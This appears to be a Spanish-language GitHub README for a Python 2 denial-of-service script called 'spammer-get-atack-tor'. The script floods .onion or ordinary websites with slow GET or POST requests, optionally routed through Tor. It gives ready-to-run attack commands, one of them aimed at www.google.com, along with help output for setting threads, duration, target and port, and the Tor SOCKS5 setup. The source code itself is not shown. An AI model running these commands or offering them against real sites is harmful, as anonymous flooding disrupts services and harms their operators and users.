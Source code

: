 #  spammer-get-atack-tor

----

```Script no serio, solo POC```

Script que permite realizar conexiones cebollas para atacar paginas .onion o paginas convencionales via tor. Capacidad de ajustar la cantidad de informacion a enviar, el numero de hilos a usar, el tiempo de duracion del ataque, atacar a un directorio en especial y etc. Su ataque es sencillo, trata de saturar un recurso en base a peticiones GET en rutas del servidor excesivamente lentas.

----

 ![Alt text](./image/Screenshot_2021-12-11_02-55-33.png) 

Ejemplo:


```python
	python2 script-dos.py -ip 127.0.0.1 -t False -p 8000 -th 20 -c 10 -peticion GET -time 30
```


Este ejemplo atacaria al equipo local hacia el puerto 8000 usando 20 hilos y 10 caracteres por peticion GET, duraria 30 segundos el ataque, el uso tor esta desactivado, para mas inrformacion ```--help```.


```python
	python2  spammer-get-atack-tor.py --help
	usage: spammer-get-atack-tor.py [-h] [-t TOR] [-ip TARGET] [-p PORT] [-th THREADS]
                     [-c CHARS] [-peticion PETICION] [-time TIMEATACK]
                     [-dir DIRECTORIO]
	optional arguments:
	  -h, --help            show this help message and exit
	  -t TOR, --tor TOR     Usar Tor en el ataque, por defecto activado
	  -ip TARGET, --target TARGET
        	                host o ip a atacar
	  -p PORT, --port PORT  puerto a atacar
	  -th THREADS, --threads THREADS
	                        threads/hilos a usar en el ataque, por defecto 20
	  -c CHARS, --chars CHARS
	                        caracteres a enviar, por defecto 20
	  -peticion PETICION, --peticion PETICION
	                        peticones a usar: GET o POST, POST por defecto
	                        ejemplo: python2 script-dos.py -ip www.google.com -p
	                        80 -th 30 -peticion GET -t True
	  -time TIMEATACK, --timeAtack TIMEATACK
	                        tiempo de duracion del ataque en segundosm tiempo por
	                        defecto: 45 segundos
	  -dir DIRECTORIO, --directorio DIRECTORIO

```
Para el ataque via tor, debe a ver un proxy tor SOCKS5 corriendo en la maquina local en el puerto 9050.
----
